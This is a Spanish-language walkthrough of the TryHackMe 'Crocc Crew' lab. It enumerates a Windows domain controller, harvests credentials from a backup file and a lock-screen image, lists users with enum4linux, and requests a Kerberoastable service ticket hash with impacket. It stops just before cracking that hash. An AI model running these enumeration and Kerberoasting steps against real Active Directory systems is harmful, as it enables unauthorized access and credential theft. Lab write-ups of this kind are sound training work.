






+++
author = "Darlez.Sec"
title = "Crocc Crew"
date = "2022-05-13"
description = "CTF Crocc Crew Nivel insane, donde se ven temas de explotacion a Kerberos, AD = Active Directory, Evil-WinRM entre otras cosas.."
tags = [
"Writeup",
"TryHackMe",
"CTF",
"Crocc Crew",
]
categories = [
"TryHackMe",
"Writeups",
"CTF",
]
series = ["Themes Guide"]
aliases = ["migrate-from-jekyl"]
image = "https://tryhackme-images.s3.amazonaws.com/room-icons/d387f5c6b5c2bfd07451dd27c187e185.png"
+++

 `Columna` | `Detalles`
-----------|---------
 `Nombre`  | `Crocc Crew`
   `IP`    | `10.10.47.234`
   `Puntos`| `150`   
   `Os`    | `Windows`
`Dificultad` | `Insane`
 `Creador` | [TryHackMe](https://tryhackme.com/p/tryhackme)

#### Reconocimiento: 

Usaremos la herramienta de nmap para escanear puertos y versiones...

haremos un `( sudo nmap -sS --min-rate 5000 -sCV -p- -A $ip -oN nmap_all.txt ) `

```bash
# Nmap 7.92 scan initiated Fri May  6 14:04:28 2022 as: nmap -sS --min-rate 5000 -sCV -p- -A -oN nmap_all.txt 10.10.87.107
Warning: 10.10.87.107 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.87.107
Host is up (0.19s latency).
Not shown: 40510 closed tcp ports (reset), 25003 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: COOCTUS.CORP0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: COOCTUS
|   NetBIOS_Domain_Name: COOCTUS
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: COOCTUS.CORP
|   DNS_Computer_Name: DC.COOCTUS.CORP
|   Product_Version: 10.0.17763
|_  System_Time: 2022-05-06T19:07:31+00:00
| ssl-cert: Subject: commonName=DC.COOCTUS.CORP
| Not valid before: 2022-05-05T17:49:20
|_Not valid after:  2022-11-04T17:49:20
|_ssl-date: 2022-05-06T19:08:03+00:00; +1s from scanner time.
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49705/tcp open  msrpc         Microsoft Windows RPC
49876/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=5/6%OT=53%CT=1%CU=42916%PV=Y%DS=2%DC=T%G=Y%TM=62757219
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=U
OS:)OPS(O1=M506NW8NNS%O2=M506NW8NNS%O3=M506NW8%O4=M506NW8NNS%O5=M506NW8NNS%
OS:O6=M506NNS)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%D
OS:F=Y%T=80%W=FFFF%O=M506NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0
OS:%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=
OS:Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R
OS:%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=
OS:80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z
OS:)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-05-06T19:07:34
|_  start_date: N/A

TRACEROUTE (using port 110/tcp)
HOP RTT       ADDRESS
1   195.51 ms 10.9.0.1
2   197.07 ms 10.10.87.107

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May  6 14:08:09 2022 -- 1 IP address (1 host up) scanned in 222.55 seconds
```

Explicacion de cada parametro seleccionado:
 
```yaml
_________________________________________________________________________________________________________________
-sS para habilitar la opcion SYN Port Scan,
 --min-rate 5000 para que no envie paquetes menores a 5000 por segundo,
 -sCV para que lanze una serie de scripts de enumeraciones y para 
que nos saque banner y versiones de los servicios,
 -p- para que nos haga un escaneo de los 65535 puertos,
 -A para habilitar la deteccion del SO = Sistema Operativo,
 la deteccion de versiones y escaneo de rutas,
 -oN para guardarlo en un formato por default de nmap,
 en mi caso yo le coloque el nombre de "nmap_all.txt"
_____________________________________________________________________________________________________________________
```

#### Enumeracion de Directorios:

usaremos la herramienta de dirsearch para enumerar directorios de la pagina...

#### Instalacion Dirsearch: 

`git clone https://github.com/maurosoria/dirsearch.git`

veremos que nos dejo una carpeta asi que entraremos con cd dirsearch

ahora haremos un `./dirsearch.py -u http://10.10.210.71`


con la enumeracion realizada veremos que hay un `/robots.txt` , para los que no sepan que son los robots.txt basicamente:

#### ¿Que es robots.txt?


`Un archivo robots.txt es un archivo que se encuentra en la raíz de un sitio e indica a qué partes no quieres que accedan los rastreadores de los motores de búsqueda. El archivo utiliza el Estándar de exclusión de robots, que es un protocolo con un pequeño conjunto de comandos que se puede utilizar para indicar el acceso al sitio web por sección y por tipos específicos de rastreadores web (como los rastreadores móviles o los rastreadores de ordenador)`

ya con eso aprendido haremos un

`curl http://10.10.140.48/robots.txt`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ curl http://10.10.47.234/robots.txt
User-Agent: *
Disallow:
/robots.txt
/db-config.bak
/backdoor.php
````

y vemos que nos da 3 directorios, veamos que hay en ellos.

haremos un `curl http://10.10.140.48/backdoor.php`

````html
<!DOCTYPE html>
<html>
<head>
<script src="https://code.jquery.com/jquery-3.3.1.min.js"></script>
<script src="https://unpkg.com/jquery.terminal/js/jquery.terminal.min.js"></script>
<link rel="stylesheet" href="https://unpkg.com/jquery.terminal/css/jquery.terminal.min.css"/>
</head>
<body>
</body>
</html>
<script>
$('body').terminal({
    hello: function(what) {
        this.echo('Hello, ' + what +
                  '. Wellcome to this terminal.');
    }
}, {
    greetings: 'CroccCrew >:)'
});
</script>
````	
nada interesante, probemos con el directorio `/db-config.bak`

````php
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ curl http://10.10.47.234//db-config.bak   
<?php

$servername = "db.cooctus.corp";
$username = "C00ctusAdm1n";
$password = "B4dt0th3b0n3";

// Create connection $conn = new mysqli($servername, $username, $password);

// Check connection if ($conn->connect_error) {
die ("Connection Failed: " .$conn->connect_error);
}

echo "Connected Successfully";

?>
````


y tendremos las primeras credenciales. 

vemos que hay smbclient pero antes que nada necesitaremos algunas credenciales para acceder, he intentando con las que nos dio `/db-config-bak` pero no nos ha funcionado.. 

ahora probaremos con la herramienta `rpcclient`
 
para los que no sepan que es esta herramienta les dejare un resumen:

#### ¿Que es rpclient?

El programa rpcclient ejecuta comandos administrativos usando Microsoft RPCs, el cual proporciona acceso a la interfaz de administración gráfica del usuario Windows (GUIs) para la administración de sistemas. Usualmente es utilizado por los usuarios más avanzados que entienden la complejidad de Microsoft RPCs.

haremos un: `rpcclient -U% 10.10.140.48` 

ya estamos como cliente de rpc ahora escribiremos `enumprivs`



El comando `enumprivs` reveló los privilegios del usuario actual en la máquina. Podemos ver que `"SeEnableDelegationPrivilege"` aparece junto con `"SeDelegateSessionUserImpersonatePrivilege"`. `"SeEnableDelegationPrivilege"` determina si una cuenta de usuario puede permitir que se confíe en las cuentas de usuario para la delegación. Esto puede influir en la delegación restringida

Nota: cada vez que yo ponga una ip ustedes tendran que cambiarla a por la de su maquina.

nos conectaremos remotamente al escritorio de windows usando RPD `( Remote Desktop Protocol )` 

haremos un `rdesktop -f -u "" 10.10.140.48`

nos preguntara `¿Confía en este certificado (sí/no)?`

escribiremos que `si`, o `yes`



como vemos el wallpaper que tiene de pantalla de bloqueo no esta dejando unas credenciales en la parte inferior a la derecha Visitor GuestLogin!
USER=Visitor PASSWORD=GuestLogin! si le damos abajo y intentamos cambiar de usuario y escribimos las credenciales tampoco nos dara acceso, dejaremos que se cierre solo el rdesktop, no tardara mucho...

ya fuera de rdesktop tendremos las credenciales para smbclient asi que intentemos loguearnos, `smbclient -L 10.10.140.48 -U 'Visitor'`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ smbclient -L 10.10.47.234 -U 'Visitor'
Password for [WORKGROUP\Visitor]:

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	Home            Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.47.234 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
````
`-L` hace referencia a LHOST y `-U` hace referencia a user.

como vemos tampoco nos dio acceso al smbclient asi que usaremos la herramienta de smbmap

para los que tengan una idea de lo que va esta herrameinta les dejo un corto resumen:

### ¿Que es SmbMap?


`Desde hace unos ya tenemos disponible en los repositorios de Kali Linux la herramienta SMBMap, que permite enumerar recursos compartidos SAMBA a lo largo de un dominio. Y no sólo eso, enumera contenidos y permisos, soporta pass-the-hash, descarga/sube/borra archivos, busca patrones de nombres de archivo con la opción de autodescargarlos e incluso ejecuta comandos en remoto.`

#### Obtencion de la primera Bandera!!!

con eso aprendido podemos comenzar

`smbmap -H 10.10.140.48 -u "Visitor" -p "GuestLogin\!" -r Home`

````bash
┌──(samsepi0l㉿kali)-[~]
└─$ smbmap -H 10.10.47.234 -u "Visitor" -p "GuestLogin\!" -r Home
[+] IP: 10.10.47.234:445	Name: 10.10.47.234                                      
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	Home                                              	READ ONLY	
	.\Home\*
	dr--r--r--                0 Tue Jun  8 14:42:53 2021	.
	dr--r--r--                0 Tue Jun  8 14:42:53 2021	..
	fr--r--r--               17 Tue Jun  8 14:41:45 2021	user.txt
````

`-u` para el usuario `-p` para la password `-r` para la ruta.

Con `-r` nos estaremos moviendo de directorios y con `--download` los estariamos descargando
 
Explorando vemos una carpeta compartida llamada Home la cual tiene la primera bandera asi que procedemos a descargarla con el siguiente comando

`smbmap -H 10.10.140.48 -u "Visitor" -p "GuestLogin\!" -r Home --download Home/user.txt`

haremos un `ls` y ahi estara en nuestro directorio, le haremos un cat para ver lo que contiene el archivo

`cat 10.10.140.48-Home_user.txt`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ smbmap -H 10.10.47.234 -u "Visitor" -p "GuestLogin\!" -r Home --download Home/user.txt
[+] Starting download: Home\user.txt (17 bytes)
[+] File output to: /home/samsepi0l/CroccCrew/10.10.47.234-Home_user.txt
                                                                                                                                                                
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ ls
10.10.47.234-Home_user.txt
                                                                                                                                                                
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ cat 10.10.47.234-Home_user.txt | head -c 9
THM{Gu3st
````
* Nota: Ustedes claramente lo ejecutaran sin el | head -c 9, eso yo lo hago para que no haya un troll por ahi y solo quiera copiar y pegar las flags

* Obtuvimos con exito la primera flag!!!

usaremos crackmapexec para ver que otro dominio tiene la pagina, se que esta herramienta deberia de ir en la seccion de post explotacion pero creo que aqui sera mas util
cuando usemos impacket.

haremos un crackmapexec `smb 10.10.206.226 -u 'Visitor' -p 'GuestLogin!'`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ crackmapexec smb 10.10.47.234 -u 'Visitor' -p 'GuestLogin!'
/usr/lib/python3/dist-packages/pywerview/requester.py:144: SyntaxWarning: "is not" with a literal. Did you mean "!="?
  if result['type'] is not 'searchResEntry':
SMB         10.10.47.234    445    DC               [*] Windows 10.0 Build 17763 x64 (name:DC) (domain:COOCTUS.CORP) (signing:True) (SMBv1:False)
SMB         10.10.47.234    445    DC               [+] COOCTUS.CORP\Visitor:GuestLogin!
````

`-p = password -u = user`

vemos que el dominio es `COOCTUS.CORP`, nos servira para el futuro.

ahora vamos con la siguiente pregunta que nos hace TryHackMe 

#### Pregunta 2 Usuario  plantado.

¿Cuál es el nombre de la cuenta que plantó Crocc Crew? para esto usaremos la herramienta de LDAP para encontrar el usuario con las credenciales que anteriormente hemos encontrado...

usaremos la herramienta de ldapdump para ver los usuarios, les dejare un resumen de lo que es basicamente esta herramienta...

#### ¿Que es LDAPdump?



`El protocolo ligero de acceso a directorios (en inglés: Lightweight Directory Access Protocol, también conocido por sus siglas de LDAP) hace referencia a un protocolo a nivel de aplicación que permite el acceso a un servicio de directorio ordenado y distribuido para buscar diversa información en un entorno de red.`

con eso aprendido usaremos la dicha herramineta haremos un:

#### Enumeracion con LDAP

`ldapdomaindump $ip -u 'COOCTUS.CORP\Visitor' -p GuestLogin!`

nos iremos a la carpeta en la que estan y abriremos el archivo domain_user.html



En domain_users.html podremos ver varios usuarios incluida la respuesta a la segunda pregunta y tambien podremos ver el usuario "reset" que lo usaremos mas adelante

si no se confian de como sacamos y sabemos de que ese era el usuario, pues usaremos otra herramienta para ver la lista de usuarios..

#### Explicacion de la herramienta enum4linux:

`enum4linux es una herramienta de enumeración de windows y sistemas samba. Esta intenta ofrecer una funcionabilidad similar a enum.exe antes disponible en www.bindview.com. Esta escrito en Perl y es básicamente incorpora todas las herramientas de smbclient, rpclient, net y nmblookup.`

#### Enumeracion de usuarios con enum4linux:

ahora si, haremos un `enum4linux -u 'Visitor' -p 'GuestLogin!' -U 10.10.140.48` 

````bash
mora@H3nT4i:~$ enum4linux -u 'Visitor' -p 'GuestLogin!' -U 10.10.47.234
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed May 18 14:43:46 2022

 =========================================( Target Information )=========================================

Target ........... 10.10.47.234
RID Range ........ 500-550,1000-1050
Username ......... 'Visitor'
Password ......... 'GuestLogin!'
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on 10.10.47.234 )============================


[E] Can't find workgroup/domain


 ===================================( Session Check on 10.10.47.234 )===================================


[+] Server 10.10.47.234 allows sessions using username 'Visitor', password 'GuestLogin!'


 ================================( Getting domain SID for 10.10.47.234 )================================

Domain Name: COOCTUS
Domain Sid: S-1-5-21-2062199590-3607821280-2073525473

[+] Host is part of a domain (not a workgroup)


 =======================================( Users on 10.10.47.234 )=======================================

index: 0xfda RID: 0x461 acb: 0x00000210 Account: admCroccCrew   Name: admCroccCrew      Desc: (null)
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xfe4 RID: 0x46b acb: 0x00000210 Account: Ben    Name: Ben       Desc: (null)
index: 0xfdd RID: 0x464 acb: 0x00000210 Account: cryillic       Name: cryillic  Desc: (null)
index: 0xfe5 RID: 0x46c acb: 0x00000210 Account: David  Name: David     Desc: (null)
index: 0xfe3 RID: 0x46a acb: 0x00000210 Account: evan   Name: evan      Desc: (null)
index: 0xfdb RID: 0x462 acb: 0x00000210 Account: Fawaz  Name: Fawaz     Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfd9 RID: 0x460 acb: 0x00000210 Account: Howard Name: Howard    Desc: (null)
index: 0xfd5 RID: 0x45c acb: 0x00000210 Account: Jeff   Name: Jeff      Desc: (null)
index: 0xfe1 RID: 0x468 acb: 0x00000210 Account: jon    Name: jon       Desc: (null)
index: 0xfdc RID: 0x463 acb: 0x00000210 Account: karen  Name: karen     Desc: (null)
index: 0xfe0 RID: 0x467 acb: 0x00000210 Account: kevin  Name: kevin     Desc: (null)
index: 0xf0f RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xfd4 RID: 0x45b acb: 0x00020010 Account: mark   Name: Mark      Desc: (null)
index: 0xfdf RID: 0x466 acb: 0x00000210 Account: pars   Name: paradox   Desc: (null)
index: 0xfe8 RID: 0x46e acb: 0x00040210 Account: password-reset Name: reset     Desc: (null)
index: 0xfd6 RID: 0x45d acb: 0x00000210 Account: Spooks Name: Spooks    Desc: (null)
index: 0xfd8 RID: 0x45f acb: 0x00000210 Account: Steve  Name: Steve     Desc: (null)
index: 0xfe2 RID: 0x469 acb: 0x00000210 Account: Varg   Name: varg      Desc: (null)
index: 0xfb8 RID: 0x455 acb: 0x00000210 Account: Visitor        Name: Cooctus Guest     Desc: (null)
index: 0xfde RID: 0x465 acb: 0x00000210 Account: yumeko Name: yumeko    Desc: (null)

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[Visitor] rid:[0x455]
user:[mark] rid:[0x45b]
user:[Jeff] rid:[0x45c]
user:[Spooks] rid:[0x45d]
user:[Steve] rid:[0x45f]
user:[Howard] rid:[0x460]
user:[admCroccCrew] rid:[0x461]
user:[Fawaz] rid:[0x462]
user:[karen] rid:[0x463]
user:[cryillic] rid:[0x464]
user:[yumeko] rid:[0x465]
user:[pars] rid:[0x466]
user:[kevin] rid:[0x467]
user:[jon] rid:[0x468]
user:[Varg] rid:[0x469]
user:[evan] rid:[0x46a]
user:[Ben] rid:[0x46b]
user:[David] rid:[0x46c]
user:[password-reset] rid:[0x46e]
enum4linux complete on Wed May 18 14:44:23 2022

                                                                                                                                                                                               
mora@H3nT4i:~$
````
y veremos que nos dio una lista bastante extensa de usuarios, si van haciendo el procedimiento conmigo entonces les sera facil reconocer el usuario, con eso completado 

* pista: tiene el mismo nombre que la room

basicamente solo busque algun nombre que coincidiera con la ctf, entre ellos estaba ese usuario...

#### Busqueda de Vulnerabilidades:

usaremos la herramienta de impacket, para los que no sepan que es les dejare una
explicacion:

#### ¿Que es Impacket?

`Impacket es una colección de clases de Python para trabajar con protocolos de red. Impacket se enfoca en proporcionar acceso programático de bajo nivel a los paquetes y, para algunos protocolos (por ejemplo, SMB1-3 y MSRPC), la implementación del protocolo en sí. Los paquetes pueden construirse desde cero, así como analizarse a partir de datos sin procesar, y la API orientada a objetos simplifica el trabajo con jerarquías profundas de protocolos. La biblioteca proporciona un conjunto de herramientas como ejemplos de lo que se puede hacer dentro del contexto de esta biblioteca`

con esto aprendido podemos comenzar:

haremos un `impacket-GetUserSPNs 'COOCTUS.CORP/Visitor:GuestLogin!' -dc-ip 10.10.140.48 -request -outputfile TGS.txt`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ impacket-GetUserSPNs 'COOCTUS.CORP/Visitor:GuestLogin!' -dc-ip 10.10.47.234 -request -outputfile TGS.txt
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

ServicePrincipalName  Name            MemberOf  PasswordLastSet             LastLogon                   Delegation  
--------------------  --------------  --------  --------------------------  --------------------------  -----------
HTTP/dc.cooctus.corp  password-reset            2021-06-08 17:00:39.356663  2021-06-08 16:46:23.369540  constrained 


                                                                                                                                                                
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ ls
10.10.47.234-Home_user.txt  TGS.txt
````

para ver si podemos encontrar una cuenta de servicio para abusar.

si hacen un `cat TGS.txt` veran que nos dejo un HASH, intentemos romperlo con John The Ripper.

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ cat TGS.txt 
$krb5tgs$23$*password-reset$COOCTUS.CORP$COOCTUS.CORP/password-reset*$55e86b71f95ce0d2ce585af36adaef82$0a0j4
b59f0cf442fcf95944a635d7d6610610d615599eadb25335df75e52f5e41a989824d47627e69757c13680c64b48b04126203088ed9ñ7
b67b3be376b889771b074bfdb70693ad038096cec5a4d4d28b0a6b2a0e8b2aef09567a9acddfb771480789959d9f1086a593c40cff79
325df896e5f8020e14e931e1323a997c64419265bd9c5d75a8d2db3b45a6209eba0bbc249a5d44f39231699fc4b7ee079978a5ddec6f
b573dbddff223a1999fe2c525baf818cce913996af8b2c605db82cf3a78a02e3b1f73c6ff135a6d4ac3cee353515e1ed2e192858f316
b749c0ae7182ca6ba731aede9fe34a42985b8e70460c9b9c551a943780d23adbce130dd41227fd7fcd0615b31c30ed539917e35369aa
2554a9e75995ca12f6462da7e2e021fb6de1d21f98005e5943da4d4bd4dd044e7eeca76134f6aceb55bdc574969461313cca6dc2661d
03ac19a507f43f4141eecf1d3ca18379a63d67b28a4658cf6ad0cd5308ca0ff0bf785f3a8658b333b9a6c1796cf2030b46d5cdd8015e
742198ef746e5199d8b54c332e326ac84977702e3fc38962bbafc3a042af519210b219a3351a145c34cfe0df32899f6c8d4fc7124efd
d30c706d7ad48bec71559ec262087de93e9ab068fd03145630e7925d450c960ae3f09f4c22053e26387ec8b49062ed798fe10d2cc01d
